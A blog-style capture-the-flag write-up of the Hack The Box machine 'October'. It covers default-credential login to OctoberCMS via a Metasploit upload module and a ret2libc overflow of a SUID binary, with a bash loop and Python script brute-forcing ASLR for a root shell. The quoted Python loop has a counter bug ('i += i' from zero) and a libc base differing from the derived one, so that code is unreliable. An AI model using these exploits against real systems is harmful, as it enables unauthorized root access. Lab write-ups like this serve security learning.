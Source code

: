 ```yaml
---
layout: post
title:  "Hackthebox - October"
date:   2020-08-08 19:24:55 -0700
categories: hackthebox_medium
tags: hackthebox ctf october webshell ubuntu linux bof exploit file-upload nmap ret2libc  
---
```


This is a medium box made by ch4p which was super awesome because of the user to root privesc where you had to exploit a SUID binary running as root vulnerable to the ret2libc attack. We also had to do ASLR bruteforcing as it was enabled on the box.

First up I ran an nmap scan, 2 ports were revealed:

```bash
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
```

First up we got ssh on port 22, nmap tells us the box runs Ubuntu based on it.

We also see a HTTP port open which runs OctoberCMS under Apache

![image](/assets/images/htb_october_80.png)

I fired up metasploit and searched for modules related to octobercms and found one which uploads a php file and executes it

![image](/assets/images/htb_october_msf.png)

As it was asking for creds I decided to use the default one's which are `admin:admin`, and to my surprise I got a shell as www-data, which had access to the `user.txt` file, this way we owned user

![image](/assets/images/htb_october_shell.png)

By searching for SUID files I found `/usr/local/bin/ovrflw`

![image](/assets/images/htb_october_suid.png)

I was able to trigger a segmentation fault by sending 500 A's using python

![image](/assets/images/htb_october_rseg.png)

I then downloaded the binary to my box using `meterpreter`'s `download` command and tried triggering a segfault there too

![image](/assets/images/htb_october_lseg.png)

Using gdb-peda I generated a pattern of 2000 bytes 

![image](/assets/images/htb_october_pat.png)

Then I ran the binary...

![image](/assets/images/htb_october_pedaseg.png)

This caused a seg fault, I used `pattern_search` I was able to identify EIP's offset being `112`, this is very important.

Aftering doing more research I found out that a ret2libc payload should be as following:

![image](https://cdn.discordapp.com/attachments/670978545379704863/742355039661588500/unknown.png)

So

```py
payload = junk + system_address + exit_address + binsh_address
```

We already know our junk should be `112` bytes, we can define it as following:

```py
junk = "A" * 112
```

I went back to the box to get the libc address (which we will need later), `/bin/sh`'s address, exit's address and system's address

Address of libc:

```bash
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75f8000)
```

So 

```py
libc_address = 0xb75f8000
```

Finding the address of exit and system is easy

We find their offsets: 

```bash
www-data@october:/dev/shm$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system@" -e " exit@"
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```

In my case:

`0x33260` - exit

`0x40310` - system

Then we grab the base address of libc, which was `0xb75f8000`, and then we add that to our offsets

LIBC            + OFFSET        = ADDRESS

`0xb75f8000`    + `0x33260`     = **0xB762B260** (_exit_)

`0xb75f8000`    + `0x40310`     = **0xB7638310** (_system_)

Next up we need to find the address of `/bin/sh`

```
www-data@october:/dev/shm$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh" 
 162bac /bin/sh
```

Again the offset is `162bac`, we can find it same way as others

LIBC            + OFFSET        = ADDRESS

`0xb75f8000`    + `162bac`     = **0xB775ABAC** (_/bin/sh_)

After finding all addresses I built a shell script which would continously ran the binary using our payload generated by python, as ASLR is enabled we would have a chance that the addresses would match our payload's addresses, giving us a /bin/sh shell as whoever was running the binary, in our case `root` because the binary has SUID.

```bash
while true
do 
./ovrflw `python -c "print \"\x90\"*112 + \"SYSTEM ADDRESS IN LITTLE ENDIAN FORMAT\" + \"EXIT ADDRESS IN LITTLE ENDIAN FORMAT\" + \"BIN/SH IN LITTLE ENDIAN FORMAT\""`
done
```

If you want to use python for this, here is enox's solution:

```py
#!/usr/bin/env python

import struct
from subprocess import call

offset="A"*112

libc_baseaddr = 0xb75e0000
system_off = 0x00040310
exit_off = 0x00033260
command_off = 0x00162bac #/bin/sh

system_addr = struct.pack("<I",libc_baseaddr+system_off)
exit_addr = struct.pack("<I",libc_baseaddr+exit_off)
command_addr = struct.pack("<I",libc_baseaddr+command_off)

payload = offset + system_addr + exit_addr + command_addr

i = 0
while (i < 512):
    print "Try : %s" %i
    i += i
    ret = call(["/usr/local/bin/ovrflw", payload])
```

If you don't know how to convert hex to little endian, here's are few ways:

![image](https://metahash.zendesk.com/hc/article_attachments/360014619234/Little_endian.jpg)

So `0x12345678` would be `\x78\x56\x34\x12` in python 

Alternatively you can use the struct module from python, example from enox's code would be this

```py
system_addr = struct.pack("<I",libc_baseaddr+system_off)
```

So this

```py
struct.pack("<I", 0x12345678)
```

Would convert `0x12345678` to little endian

Credits:
- [https://metahash.zendesk.com/hc/en-us/articles/360010374753-Little-endian-format](https://metahash.zendesk.com/hc/en-us/articles/360010374753-Little-endian-format) - For the image
- Enox for the code
- 0xdf for helping me learn how to brute force aslr and some snippets of text from his blog :P